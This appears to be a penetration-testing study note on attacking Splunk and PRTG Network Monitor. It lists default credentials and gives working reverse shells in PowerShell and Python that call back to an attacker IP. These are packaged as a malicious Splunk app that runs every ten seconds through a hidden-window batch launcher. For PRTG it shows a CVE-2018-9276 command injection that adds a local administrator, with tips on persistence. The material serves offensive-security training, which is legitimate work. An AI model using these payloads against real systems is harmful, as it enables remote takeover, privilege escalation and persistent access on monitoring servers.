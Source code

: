 # **Splunk - Discovery & Enumeration**

**Default Port: 8000**
Older default Credentials :  `admin:changeme`
The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication.

# **Attacking Splunk**

## **Abusing Built-In Functionality**

[https://github.com/0xjpuff/reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)

```
tree splunk_shell/splunk_shell/
├── bin
└── default
```

The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. 

### Windows

Our reverse shell will be a PowerShell one-liner. (save as run.sp1 and locate it at bin directory)

A simple and small reverse shell. Options and help removed to save space.
Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
```powershell
 $client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf)  file tells Splunk which script to run and any other conditions. Here we
 set the app as enabled and tell Splunk to run the script every 10 seconds. 

```
cat inputs.conf 
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner: 

```
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```
tar -cvzf updater.tar.gz splunk_shell/splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose `Install app from file` and upload the application.

![image.png](../../Images/NMT_image0.png)

### Linux

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. 

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash'
```

# **PRTG Network Monitor**

Default Credentials: `prtgadmin:prtgadmin`.

## Check Version

```bash
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```

## CVE-2018-9276

Versión: `17.3.33.283`.

When creating a new notification, the `Parameter` field is passed directly into a PowerShell script without any type of input sanitization.

To begin, mouse over `Setup` in the top right and then the `Account Settings` menu and finally click on `Notifications`.

![image.png](../../Images/NMT_image1.png)

Next, click on `Add new notification`.


![image.png](../../Images/NMT_image2.png)

Give the notification a name and scroll down and tick the box next to `EXECUTE PROGRAM`. Under `Program File`, select `Demo exe notification - outfile.ps1` from the drop-down. Finally, in the parameter field, enter a command.  For our purposes, we will add a new local admin user by entering:

```bash
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add  
```

 During an actual assessment, we may want to do something that does not change the system, such as getting a reverse shell or connection to our favorite C2. Finally, click the `Save` button.

![image.png](../..//NMT_image3.png)

After clicking `Save`, we will be redirected to the `Notifications` page and see our new notification named `pwn` in the list.

Now, we could have scheduled the notification to run (and execute our command) at a later time when setting it up. This could prove handy as a persistence mechanism during a long-term engagement and is worth taking note of. Schedules can be modified in the account settings menu if we want to set it up to run at a specific time every day to get our connection back or something of that nature. At this point, all that is left is to click the `Test` button to run our notification and execute the command to add a local admin user. After clicking `Test` we will get a pop-up that says `EXE notification is queued up`. If we receive any sort of error message here, we can go back and double-check the notification settings.

### Testing

```bash
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG
```
